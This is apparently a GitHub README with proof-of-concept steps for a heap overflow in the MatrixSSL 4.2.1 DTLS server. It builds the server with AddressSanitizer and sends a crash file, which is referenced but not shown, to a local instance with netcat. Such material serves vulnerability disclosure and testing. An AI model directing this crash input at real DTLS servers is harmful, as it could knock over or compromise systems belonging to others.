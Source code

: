 # Exploiting heap overflow in dtls server

`How to:`
1. Download matrixssl 4.2.1-open version from: https://github.com/matrixssl/matrixssl
2. Install the dtls server: `make && cd apps/ssl && make && cd ../..`
3. Run `cc  -o apps/dtls/dtlsServer apps/dtls/dtlsServer.o apps/dtls/dtlsCommon.o matrixssl/libssl_s.a crypto/libcrypt_s.a core/libcore_s.a -fsanitize=address -Wl,--gc-sections -lpthread` for injecting ASAN.
4. Run dtls server: `./apps/dtls/dtlsServer -p 4444`
5. Exploiting server with: `netcat -u 127.0.0.1 4444 < crash_001_parseSSLHandshake_WRITE_256.raw`
![Exploit Result](dtls.png)

